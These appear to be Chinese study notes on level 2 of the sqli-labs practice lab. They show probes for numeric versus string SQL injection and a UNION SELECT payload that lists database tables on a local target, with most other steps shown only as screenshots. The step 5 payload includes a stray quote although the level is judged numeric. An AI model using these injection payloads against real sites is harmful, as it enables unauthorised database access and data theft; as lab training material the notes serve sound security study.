    ![image-20250307123608539](https://gitee.com/PUqicnda/img/raw/master/20250307123608597.png)

![image-20250307123707904](C:/Users/pq268/AppData/Roaming/Typora/typora-user-images/image-20250307123707904.png)



# Less-2

1. 先确定攻击点,id=1，页面正常

2. **判断闭合方式，及判断字段列数**

   ![image-20250307202047626](https://gitee.com/PUqicnda/img/raw/master/20250307202047690.png)

   判断为**数字型**

   > 判断方法：https://blog.csdn.net/chenzzhenguo/article/details/108842399
   >
   > ```
   > url地址中输入www.xxxx.com/ccc.php?id=x and 1=1
   > 页面显示正常，继续下一步
   > url地址中输入www.xxxx.com/ccc.php?id=x and 1=2
   > 页面错误，这说明存在数字型注入
   > ```
   >
   > ```
   > www.xxx.com/ccc.php?id=1’ and ‘1’='1
   > 页面正常，继续下一步
   > www.xxx.com/ccc.php?id=1’ and ‘1’='2
   > 页面报错，则说明存在字符型注入。
   > ```

3. 确认列数（同less-1）

4. 确认数据库名称

   ![image-20250307202300464](https://gitee.com/PUqicnda/img/raw/master/20250307202300525.png)

5. 查数据库security中的表名

   ```
   http://127.0.0.1/Less-2/?id=-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
   ```

   ![image-20250307202730156](https://gitee.com/PUqicnda/img/raw/master/20250307202730221.png)

6. 同less-1，查询各个表的字段名和表数据

   ![image-20250307203006481](https://gitee.com/PUqicnda/img/raw/master/20250307203006557.png)

7. 同less-1，查表数据

   ![image-20250307203404404](https://gitee.com/PUqicnda/img/raw/master/20250307203404478.png)
